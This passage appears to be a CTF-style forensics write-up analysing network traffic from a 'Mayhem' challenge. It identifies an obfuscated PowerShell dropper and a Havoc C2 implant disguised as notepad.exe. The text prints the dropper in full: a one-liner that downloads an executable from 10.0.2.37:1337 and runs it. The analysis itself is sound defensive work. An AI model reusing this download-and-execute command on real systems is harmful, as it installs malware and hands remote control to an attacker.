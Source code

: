 If you check the conversations you will find 3 file transfers.

![](/assets/blog/Mayhem/filetransfers.png)

You can export these files to your machine using `File > Export Objects > HTTP`. I first inspected the `install.ps1`, this file is used for downloading the `notepad.exe` file, it's a simple PowerShell script, and you can already guess that this is some kind of malware, because of the obfuscation.

```sh
$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;$65lmAtnzW8 = New-Object System.Net.WebClient;$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx);Start-Process -Filepath $LA4rJgSPpx
```

The next thing I checked is the downloaded file `notepad.exe`, I loaded it into Ghidra but the code was quite unreadable because it's heavily obfuscated. The next thing I did is checking the `md5sum` of the `notepad.exe`, actually there are two `notepad.exe` files downloaded, so I checked if they are the same or not:

```terminal
$ md5sum notepad*
a13daa35fd7b873f87379a94b97168e2  notepad(1).exe
a13daa35fd7b873f87379a94b97168e2  notepad.exe
```

To find further information on the binary I searched for the MD5 hash on Virustotal.

![](/assets/blog/Mayhem/vt.png)

The result above looks promising, almost all Antivirus systems classified the sample as malware and even better, the engines determined that this is some kind of **Havoc** malware. Havoc is a C2 framework, it uses encrypted communication to communicate between the server and the client. Because of this information we now know that `10.0.2.37` is likely the command and control server and `10.0.2.38` is the infected host. After the download of `notepad.exe`, they communicate frequently over HTTP:
